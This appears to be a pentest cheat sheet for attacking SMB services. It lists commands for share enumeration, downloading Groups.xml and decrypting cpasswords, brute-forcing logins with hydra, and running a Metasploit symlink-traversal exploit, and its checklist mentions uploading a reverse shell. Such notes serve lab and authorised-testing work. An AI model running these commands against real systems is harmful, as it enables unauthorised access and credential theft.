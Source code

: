 # 139,445 (SMB)

## Enumeration

### smbmap

```bash
smbmap -H <IP>
smbmap -H <IP> -u anonymous
smbmap -H <IP> -u '' -p ''
smbmap -H <IP> -u 'guest' -p ''
smbmap -R <share> -H <IP>  # List out directories and their contents
# Look for things like Groups.xml for AD
smbmap -R <share> -H <IP> -A Groups.xml -q  # Attempt to download file
# Locate cpasword= in Groups.xml and decrypt it
gpp-decrypt <cpassword>
```

### smbclient

```bash
smbclient -L //<IP>  # List out available shares
smbclient -L //<IP>/ -U <username>
smbclient //<IP>/<SHARE>  # Connect to an available share

> mget *  # Attempt to download all files
> recurse ON  # Turn on recursive
> prompt OFF  # Turn off prompting

# Forcing Protol NT1
smbclient -L //<IP>/ --option='client min protocol=NT1'
smbclient //<IP>/<SHARE> --option='client min protocol=NT1'

```

#### Commands

```bash
dir /a
smb: \> mask "*"
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

### crackmapexec

```bash
crackmapexec smb <IP>
crackmapexec smb <IP> 'guest' -p ''
crackmapexec smb <IP> --shares
crackmapexec smb <IP> --shares -u '' -p ''
crackmapexec smb <IP> --shares -u <username> -p <password>
crackmapexec smb <IP> --pass-pol
crackmapexec smb <IP> --users

crackmapexec winrm <IP> --shares -u <username> -p <password>  # Tell us if we can get on the machine
# Look for Pwn3d!
evil-winrm -i <IP> -u <username> -p <password>
```

### rpcclient

```bash
rpcclient <IP>
rpcclient -U ''
<TAB> <TAB>  # Show options when connected
> enumdomusers
```

### nbtscan

```bash
nbtscan <IP>
```

### enum4linux

```bash
enum4linux <IP>
```

### samrdump

```bash
python3 /usr/share/doc/python3-impacket/examples/samrdump.py <IP>
```

### nmap

```bash
# /usr/share/nmap/scripts/smb*
nmap -p445 <IP> --script=smb-system-info
nmap -p445 <IP> --script=smb-enum*
nmap -p445 <IP> --script=smb-vuln*
```

### Metasploit

```bash
search smb
```

## Brute Force

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce eachusernam
hydra -l Administrator -P /usr/share/seclists/Passwords/darkweb2017-top100.txt <IP> smb -V -f
hydra -L usernames.txt -P passwords.txt <IP> smb -V -f
```

## Exploitation Check

* [ ] Enumerate and download any interesting files ideally looking for credentials or other information relating to other services.
* [ ] Can you login via SMB and put files on the system?
  * [ ] If so, is there a web interface where you can access the files?
    * [ ] If so, then you may be able to upload a reverse shell.
  * [ ] If so, can you use Metasploit to create symbolic link to the root filesystem?

## Exploitation

### Metasploit

```bash
use auxiliary/admin/smb/samba_symlink_traversal
set rhost
set smbshare <SHARE>
exploit
```

Then back in `smbclient` we can `cd` into the `rootfs` that was created.

### SMB Password Change

```bash
# Attempt to change a users password through SMB
smbpasswd -U <username> -r <IP>
# Then can use crackmapexec to test login
cme smb <IP> -u <username> -p <password>
cme winrm <IP> -u <username> -p <password>
```

### SMB Drive Mapping

```bash
sudo mount -t cifs -o 'user=<username>,password=<password>' //IP/Share /mnt/dir
# Go into /mnt/dir to look for interesting files
```
